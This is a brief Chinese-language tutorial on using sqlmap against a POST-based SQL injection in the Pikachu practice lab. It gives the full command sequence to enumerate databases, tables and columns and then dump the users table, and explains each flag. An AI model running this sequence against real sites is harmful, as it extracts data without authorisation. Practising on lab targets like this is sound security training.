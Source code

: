 # sqlmap使用

## 1.post

![sql1](D:\1-政企业务\pics\sql1.png)

对靶场测试，post的一个注入

sqlmap -u "http://ip/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" --forms --dbs

--forms 测试表单，--dbs爆库

sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables

-D指定库 --tables爆表

sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns

-T指定表 --columns爆列



sqlmap -u "http://192.168.127.130/pikachu/vul/sqli/sqli_id.php#/" --data="id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C 列1,列2 --dump

爆信息